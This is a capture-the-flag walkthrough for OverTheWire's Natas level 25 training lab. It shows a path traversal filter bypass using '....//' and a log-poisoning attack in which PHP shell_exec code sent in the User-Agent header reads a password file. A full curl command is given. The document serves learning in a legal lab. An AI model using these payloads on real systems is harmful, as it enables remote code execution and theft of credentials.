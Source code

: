 # This is a writeup for Natas - level 25

This site features text that is displayed in English or German.

Setting the language through the GUI shows you in the url bar that the language is set with a GET parameter called lang.
Looking at the sourcecode tells us that the file is found at language/<lang>

Immediately we think of path traversals. But alas, looking at the sourcecode at the function ```php safeinclude``` tells us that any '../' will be replaced by ''

```php
 if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
            }
```

But if we write '....//', we will be left with '../' as desired!

Now we just pass in something like http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//etc/natas_webpass/natas26 and we are done, right?

Not quite. The next part of the ```php safeinclude``` function states that 'natas_webpass' is forbidden:

```php
if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```

So it was a red herring...

Now, my take-away from solving this level is that I should always look for places where I can inject data. I obviously do that with $_REQUEST (in particular the ["lang"] key is used) but also in the $_SERVER['HTTP_USER_AGENT']. Let's look at that code:

```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

The user agent is appended to the log file, and that is exploitable.

I send a curl request with a specific user agent to inject php code into the server.

<details>
  <summary>
    Click to reveal the command
  </summary>

  curl -H "User-Agent: <? echo shell_exec('cat /etc/natas_webpass/natas26')?>" -u "natas25:<pwd>" -b "PHPSESSID=mysession" http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_mysession.log

</details>

For reference, I used [this write-up](https://learnhacking.io/overthewire-natas-level-25-walkthrough/) to solve the level; in particular the $_SERVER['HTTP_USER_AGENT'] exploit.
